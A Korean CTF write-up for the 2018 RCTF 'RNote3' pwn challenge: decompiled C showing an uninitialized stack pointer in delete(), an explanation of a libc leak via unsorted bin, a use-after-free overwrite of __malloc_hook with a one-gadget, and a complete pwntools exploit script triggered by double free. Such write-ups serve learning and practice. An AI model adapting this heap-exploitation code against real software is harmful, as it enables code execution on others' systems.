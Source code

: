```yaml
---
title: "2018 RCTF RNote3"
date: 2020-3-6
ctf: RCTF
layout: post
---
```




ptr이라는 변수를 초기화해주지 않고 있어서 `uninitailize stack` 이 발생한다.

```c
unsigned __int64 delete()
{
  size_t v0; // rdx
  signed int i; // [rsp+4h] [rbp-1Ch]
  void **ptr; // [rsp+8h] [rbp-18h]
  char s1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("please input note title: ");
  read_(&s1, &byte_8, v0);
  for ( i = 0; i <= 31; ++i )
  {
    if ( note2[i] && !strncmp(&s1, note2[i], 8uLL) )
    {
      ptr = note2[i];
      break;
    }
  }
  if ( ptr )
  {
    free(ptr[2]);
    free(ptr);
    note2[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

자세히보면 view, edit, delete 함수 모두 같은 스택 구조를 가지고 있다. 근데 delete함수에서는 ptr값을 초기화해주지 않는다. 그러므로 `uninitailize stack` 취약점이 터진다. 그래서 delete 함수에서 힙포인터를 담고 있는 전역변수를 0으로 초기화 시키지 않을 수 있다. 이런식으로 unsorted bin attack으로 libc leak해주고 UAF로 fd에 __malloc_hook - 35를 넣고 이후 청크 하나 생성하고 또 하나 생성해서 hook 덮어주면 된다. 그리고 Double Free로 트리거해주면 된다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./RNote3')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./RNote3',aslr=True)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x0000000000202040
note2 = 0x0000000000202060

def add(title,size,content):
	sl('1')
	sa('please input title:',title)
	sla('please input content size:',str(size))
	sa('please input content:',content)

def view(title):
	sl('2')
	sa('please input note title: ',title)

def edit(title,content):
	sl('3')
	sa('please input note title:',title)
	sa('please input new content: ',content)

def delete(title):
	sl('4')
	sa('please input note title: ',title)

add('A\n',0xa0,'a\n') 
add('B\n',0xa0,'b\n')

view('A\n') 
delete('!\n') # uninitailize stack
view('\n')

p.recvuntil('content: ')
libc_base = u64(p.recv(6).ljust(8,'\x00')) - 0x3c4b78
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))

add('C\n',0xa0,'c\n')
add('D\n',0x68,'d\n')
add('E\n',0x68,'e\n')

view('D\n')
delete('!\n') # uninitailize stack
edit('\n',p64(malloc_hook-35)+'\n')

add('F\n',0x68,'f\n')
add('G\n',0x68,'A'*19+p64(libc_base + 0xf02a4)+'\n')

delete('E\n')
delete('E\n')

p.interactive()
```

